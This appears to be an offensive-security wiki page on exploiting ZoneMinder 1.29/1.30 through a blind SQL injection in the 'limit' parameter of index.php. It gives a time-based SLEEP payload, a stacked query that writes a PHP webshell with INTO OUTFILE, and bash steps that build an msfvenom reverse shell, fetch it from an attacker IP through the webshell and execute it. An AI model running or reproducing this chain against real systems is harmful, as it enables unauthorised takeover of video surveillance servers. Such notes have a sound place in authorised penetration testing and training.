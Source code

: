 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ZoneMinder

ZoneMinder is an open-source video surveillance platform for Linux that supports various camera types and provides web-based monitoring and recording. Its exposed web interface and reliance on backend services make it a common target for exploitation, especially when misconfigured or running vulnerable versions.

## v1.29 & v1.30

ZoneMinder `1.29`/`1.30` is vulnerable to **blind SQLi** in the `limit` parameter of the `index.php` page, which accepts `POST` requests. This flaw allows stacked queries on MySQL versions greater than `5.0.11`, enabling attackers to execute arbitrary SQL commands, including time-based delays ([PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)).

{% tabs %}
{% tab title="PoC" %}
```sql
&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```
{% endtab %}

{% tab title="Webshell" %}
Get a webshell:

{% code overflow="wrap" %}
```sql
limit=100;SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/webshell.php';#&minTime=1466674406.084434
```
{% endcode %}

Upgrade it to reverse shell:

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=80 -f elf -o revshell.elf
​
# Copy binary to the target
curl -s "http://<target-IP>:3305/webshell.php?c=wget+192.168.45.170/revshell.elf+-O+/tmp/revshell.elf"
​
# Assign executable permissions to the binary
curl -s "http://pebbles:3305/webshell.php?c=chmod+777+/tmp/revshell.elf"

# Execute the binary
curl -s "http://pebbles:3305/webshell.php?c=/tmp/revshell.elf"
```
{% endcode %}
{% endtab %}
{% endtabs %}

